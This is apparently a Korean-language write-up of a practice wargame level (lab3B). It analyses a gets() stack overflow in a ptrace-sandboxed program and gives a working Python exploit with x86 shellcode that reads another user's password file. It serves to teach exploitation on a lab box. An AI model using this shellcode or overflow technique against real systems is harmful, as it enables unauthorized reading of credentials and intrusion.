## 1. 문제 확인
- ID : lab3B
- Target : /level/lab03/lab3B
- flag : /home/lab3A/.pass
```
	lab3B@warzone:/levels/lab03$ ./lab3B
	just give me some shellcode, k
	g4nzzi
	child is exiting...
	lab3B@warzone:/levels/lab03$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <signal.h>
	#include <assert.h>
	#include <stdlib.h>
	#include <stdio.h>
	#include <unistd.h>
	#include <sys/ptrace.h>
	#include <sys/reg.h>
	#include <sys/prctl.h>
	#include <wait.h>
	#include "utils.h"

	ENABLE_TIMEOUT(60)

	/* gcc -z execstack -fno-stack-protector -o lab3B lab3B.c */

	/* hint: write shellcode that opens and reads the .pass file.
		ptrace() is meant to deter you from using /bin/sh shellcode */

	int main()
	{
    	pid_t child = fork();
    	char buffer[128] = {0};
    	int syscall = 0;
    	int status = 0;

    	if(child == 0)
    	{
        	prctl(PR_SET_PDEATHSIG, SIGHUP);
        	ptrace(PTRACE_TRACEME, 0, NULL, NULL);

        	/* this is all you need to worry about */
        	puts("just give me some shellcode, k");
        	gets(buffer);
    	}
    	else
    	{
        	/* mini exec() sandbox, you can ignore this */
        	while(1)
        	{
            	wait(&status);
            	if (WIFEXITED(status) || WIFSIGNALED(status)){
                	puts("child is exiting...");
                	break;
            	}

            	/* grab the syscall # */
            	syscall = ptrace(PTRACE_PEEKUSER, child, 4 * ORIG_EAX, NULL);

            	/* filter out syscall 11, exec */
            	if(syscall == 11)
            	{
                	printf("no exec() for you\n");
                	kill(child, SIGKILL);
                	break;
            	}
        	}
    	}

    	return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
- 힌트를 보면 .pass 파일을 열고 읽는 쉘코드를 사용하라고 가이드
```c
	/* hint: write shellcode that opens and reads the .pass file.
	ptrace() is meant to deter you from using /bin/sh shellcode */
```
- 부모 프로세스는 ptrace() 함수를 통해 자식 프로세스의 exec 시스템콜은 실행하지 못하도록 필터링
```c
	...
    	/* grab the syscall # */
        syscall = ptrace(PTRACE_PEEKUSER, child, 4 * ORIG_EAX, NULL);
        
        /* filter out syscall 11, exec */
       	if(syscall == 11)
       	{
           	printf("no exec() for you\n");
           	kill(child, SIGKILL);
           	break;
       	}
    ...
```
- 자식 프로세스의 경우, buffer 사이즈가 128byte이지만 gets()함수에서 입력값 제한이 없으므로 overflow 발생
```c
        char buffer[128] = {0};
        ...
        puts("just give me some shellcode, k");
        gets(buffer);
        ...
```
- overflow 시 crash가 발생되는 위치를 확인하기 위해 임의값 128byte + 알파벳 패턴으로 입력 데이터를 만듬
```python
	data = ''
	for i in range(26):
        data += chr(i+0x41)*4

	print("a"*128 + data)
```
```
	lab3B@warzone:/levels/lab03$ python /tmp/lab3b.py > /tmp/lab3b_input
	lab3B@warzone:/levels/lab03$
```
- 입력 데이터를 사용하여 실행하면 overflow에 의해 리턴 주소에서 crash가 발생되고, 발생 위치는 'HHHH'(0x48484848)로 확인됨
```
	gdb-peda$ r < /tmp/lab3b_input
	Starting program: /levels/lab03/lab3B < /tmp/lab3b_input
	[New process 16010]
	just give me some shellcode, k
	Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
	Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.

	Program received signal SIGSEGV, Segmentation fault.
	...
        Stopped reason: SIGSEGV
	0x48484848 in ?? ()
	gdb-peda$
```
```
	|-------------------- 156 byte -------------------|
	[aaaaaaaa...aaaaaaaa][AAAABBBBCCCCDDDDEEEEFFFFGGGG][HHHH]
             buffer(128)               dummy(28)            ret
```
- crash 발생 시점의 buffer 변수의 주소는 0xbffff640 이므로, 해당 위치에 쉘코드를 입력하고 리턴주소로 사용하면 쉘코드 실행 가능
```
	[Switching to process 16083]
	[----------------------------------registers-----------------------------------]
	EAX: 0x0
	EBX: 0x45454545 ('EEEE')
	ECX: 0xfbad2088
	EDX: 0xb7fce8a4 --> 0x0
	ESI: 0x0
	EDI: 0x46464646 ('FFFF')
	EBP: 0x47474747 ('GGGG')
	ESP: 0xbffff6e0 ("IIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
	EIP: 0x48484848 ('HHHH')
	EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
        ...
```
```
	gdb-peda$ x/s 0xbffff640
	0xbffff640:     'a' <repeats 128 times>, "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"...
```

<br/><br/>
## 3. Exploit
- "/home/lab3A/.pass" 파일을 읽는 쉘코드와 리턴주소까지 포함된 입력 데이터를 생성하는 코드를 작성
```python
	shellcode = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff" + "/home/lab3A/.pass\x00"

	print("\x90"*(128-len(shellcode)) + shellcode + "\x90"*28 + "\x40\xf6\xff\xbf")
```
> 쉘코드 참조 : http://shell-storm.org/shellcode/files/shellcode-73.html

- 생성된 입력 데이터로 프로그램을 실행하면 "/home/lab3A/.pass" 파일 내용이 출력됨
  (※ GDB 환경에서의 리턴주소와 실제 프로그램 실행 시 리턴주소는 약간의 차이가 있음)
```
	lab3B@warzone:/levels/lab03$ python /tmp/lab3b.py > /tmp/lab3b_input
	lab3B@warzone:/levels/lab03$ ./lab3B < /tmp/lab3b_input
	just give me some shellcode, k
        [/home/lab3A/.pass 파일 내용 출력]
        child is exiting...
	lab3B@warzone:/levels/lab03$
```
